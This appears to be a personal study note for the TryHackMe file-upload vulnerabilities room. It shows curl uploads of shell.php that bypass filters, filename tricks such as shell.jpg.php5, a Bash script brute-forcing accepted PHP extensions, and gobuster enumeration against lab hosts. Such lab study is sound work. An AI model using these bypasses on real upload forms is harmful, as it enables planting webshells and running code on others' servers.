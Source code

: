 # Upload vulnerabilities

{% embed url="https://tryhackme.com/room/uploadvulns" %}
TryHackMe upload vulnerabilities practice room
{% endembed %}

### Bypassing client-side filtering

1. Direct server requests with _cURL_

_Eg._

> Task 7 of the _tryhackme.com_ practice room (link provided at the top)

The following Javascript file defines the client-side filtering logic, which only allows file uploads of the type `image/png`:

```javascript
...
...
		if (file.type != "image/png"){
			upload.value = "";
			uploadMsg.style = "display:none;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			responseMsg.style="display:none;";
			errorMsg.style="display:none;";
			success();
		}

...
...
```

Given the following form field in the HTML source code:

```html
<form method="post" enctype="multipart/form-data">
    <input type="file" name="fileToUpload" id="fileSelect" style="display:none">
    <input class="Btn" type="submit" value="Upload" name="submit" id="submitBtn">
</form>
```

A cURL request can be sent directly to the server — completely bypassing the client-side filter.

The `-F` or `--form` flag in the _cURL_ command can be used to send form-data (given that the file `shell.php` is found in the same directory):

```bash
curl 'http://java.uploadvulns.thm/' \
  -H 'Host: java.uploadvulns.thm' \
  -F 'fileToUpload=@shell.php;type=text/x-php'
  -F 'submit=Upload'
```

The Content-Type header will be automatically added to the final  HTTP _POST_ request, and will look like the following:

```http
Content-Type: multipart/form-data; boundary=------------------------xxxx
```



2. Interceping and modifying requests with _BurpSuite_

_BurpSuite_ can be used to modify:

a) The GET response from the server to the client, allowing the removal of JavaScript filter logic loaded on the client side&#x20;

b) The POST request sent to the server, enabling the removal of client-side filtering before the data is uploaded



### Bypassing server-side filtering

### 1. File extension

a) Presence of valid file extension anywhere within the filename (_whitelist bypass_)

Some server-side filtering mechanism check if the filename contains a valid file extension without enforcing strict validation at the end of the filenam. This logic can be exploited by including the allowed extension within the filename while using a malicious extension.

A possible server-side logic:

```php
IF STRING ".[file-ext]" IS IN VARIABLE <user_input>:
    PROCEED
ELSE:
    RETURN ERROR MESSAGE
```

Eg. Given that the valid file extension is `.jpg`. A possible valid filename can be: `shell.jpg.php`. This allows us to bypass the filter and upload a PHP file — providing us a platform for code execution..



b) Using uncommon file extension for the same file-type (_blacklist bypass_)

Some server-side filtering logic may check the file extension, and reject the file based on a blacklist. However, blacklist implementations are often incomplete, and fail to cover all possible extensions for the same file-type. This allows us to sneak a filename through the filters, which may be recognized and executed by the server.

Refer to the sub-page named: _**File extension cheat-sheet**_.

Eg. Given that `.php` is blacklisted, `.php5` may still be allowed. Thus, the filename `shell.php5` will be accepted by the server, and may execute if configured to handle `.php5` files as PHP scripts — providing us a platform for code execution.



### Examples

Eg.

> Task 8 of the _tryhackme.com_ practice room (link provided at the top)

This challenge requires the combination of method 1 and 2 discussed above (\*\*TO CONFIRM).

I decided to create a simple Bash shell script to automate the process of finding the valid filename.

_**php-ext.txt**_ (wordlist of PHP file extensions)

```
.phtml
.php3
.php4
.php5
.php7
.phps
.php-s
.pht
.phar
```

_**Bash shell script**_

```sh
#!/bin/bash

file="php-ext.txt"
while IFS="" read -r cur;
do
	if [[ -z "$cur" ]]; then
		continue
	fi

	res=$(curl http://annex.uploadvulns.thm -H "Host: annex.uploadvulns.thm" -F "fileToUpload=@shell.jpg$cur;type=application/octet-stream" -F "submit=Upload" -s -o /dev/null -D - | grep 'location')

	# alternatively,
	# if [[ "$res" == *"/?submit=success"* ]]; then
	if echo "$res" | grep -q "/?submit=success"; then
		printf "FOUND: $cur"
		exit 0
	fi

done < "$file"
```

Output: `FOUND: .php5`

The accepted PHP shell script filename is `shell.jpg.php5`.



Simple webshell (to transfer to a dedicated _**WEBSHELL**_ section?)

```php
<?php
// Check if 'cmd' parameter is set in the URL
if (isset($_GET['cmd'])) {
    // Get the value of 'cmd' parameter
    $cmd = $_GET['cmd'];

    // Display the value
    echo "Command: " . htmlspecialchars($cmd);
} else {
    echo "No command provided.";
}
?>
```



### 2. Magic numbers

Magic number refers to the 4 hexadecimal digits present at the start of a file. It is used to identify the type of file, and can be viewed by using the `xxd`/`hexdump` command (`hexeditor` to edit). This logic is implemented by some servers to detect the file-type for filtering purposes —  but unfortunately, can be easily workaround.

...

> [https://tryhackme.com/room/uploadvulns](https://tryhackme.com/room/uploadvulns) (TASK 9)&#x20;

_<mark style="color:orange;">**\*\* rmb do not include extra**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`/`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**at the end of the path passed to gobuster**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`-u`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**flag if the wordlist item already has a**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`/`**</mark>_

a) Fingerprint the webserver technology — nodejs, Apache/PHP, etc.

* Visit webpage which returns 404 (the webserver tech may be shown)
* nmap script
* response headers?



```bash
$ gobuster dir -u http://magic.uploadvulns.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/Common-PHP-Filenames.txt
```

`/index.php` (not present in the wordlist though) returned&#x20;

* &#x20;confirm PHP



b) Try common file upload directories for the found webserver technology (gobuster/manual?):

* assets/uploads/
* assets/js/ (if webserver is nodejs?)

```bash
$ gobuster dir -u http://magic.uploadvulns.thm/assets/FUZZ/background.php -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

Nothing found...

c) Upload magic-numbered file named background.jpg to overwrite file at `/assets/images/background.jpg` not working&#x20;
